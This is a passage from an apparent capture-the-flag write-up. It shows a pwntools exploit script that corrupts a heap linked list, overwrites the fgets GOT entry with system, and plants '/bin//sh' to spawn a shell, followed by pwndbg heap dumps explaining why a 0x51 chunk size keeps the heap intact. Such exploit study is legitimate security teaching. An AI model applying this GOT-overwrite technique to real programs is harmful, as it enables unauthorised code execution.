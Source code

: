 ```py
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', flat([elf.got.system]))

# Might need for debugging heap where gdb.debug fails
# gdb.attach(io, gdbscript='''
# init-pwndbg
# continue
# ''')

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')

# Got Shell?
io.interactive()
```
{% endcode %}

Note when we overwrite the link in the list, we submit `0x51` afterwards to keep our heap intact, e.g. if we don't specify the next chunk's size, the heap won't know where it ends, and the next chunk begins. See the following output when we **don't** supply `0x51`.

{% code overflow="wrap" %}
```sh
0xd4c240	0x0000000000000000	0x0000000000000000	................
0xd4c250	0x0000000000000000	0x0000000000000000	................
0xd4c260	0x0000000000000000	0x0000000000000000	................
0xd4c270	0x0000000000000000	0x0000000000000000	................
0xd4c280	0x0000000000000000	0x0000000000000000	................
0xd4c290	0x0000000000000000	0x0000000000000000	................
0xd4c2a0	0x0000000000000000	0x0000000000000051	........Q.......
0xd4c2b0	0x00305f4b4e554843	0x0000000000000000	CHUNK_0.........
0xd4c2c0	0x0000000000000000	0x0000000000000000	................
0xd4c2d0	0x0000000000000000	0x0000000000000000	................
0xd4c2e0	0x0000000000000000	0x0000000000000000	................
0xd4c2f0	0x0000000000d4c300	0x0000000000000051	........Q.......
0xd4c300	0x68732f2f6e69622f	0x0000000000000000	/bin//sh........
0xd4c310	0x0000000000000000	0x0000000000000000	................
0xd4c320	0x0000000000000000	0x0000000000000000	................
0xd4c330	0x0000000000000000	0x0000000000000000	................
```
{% endcode %}

But when **do** we supply the `0x51`, the top chunk is visible.

{% code overflow="wrap" %}
```sh
0x224e2a0	0x0000000000000000	0x0000000000000051	........Q.......
0x224e2b0	0x00305f4b4e554843	0x0000000000000000	CHUNK_0.........
0x224e2c0	0x0000000000000000	0x0000000000000000	................
0x224e2d0	0x0000000000000000	0x0000000000000000	................
0x224e2e0	0x0000000000000000	0x0000000000000000	................
0x224e2f0	0x000000000224e300	0x0000000000000051	..$.....Q.......
0x224e300	0x68732f2f6e69622f	0x0000000000000000	/bin//sh........
0x224e310	0x0000000000000000	0x0000000000000000	................
0x224e320	0x0000000000000000	0x0000000000000000	................
0x224e330	0x0000000000000000	0x0000000000000000	................
0x224e340	0x0000000000404040	0x0000000000000051	@@@.....Q.......
0x224e350	0x00325f4b4e550000	0x0000000000000000	..UNK_2.........
```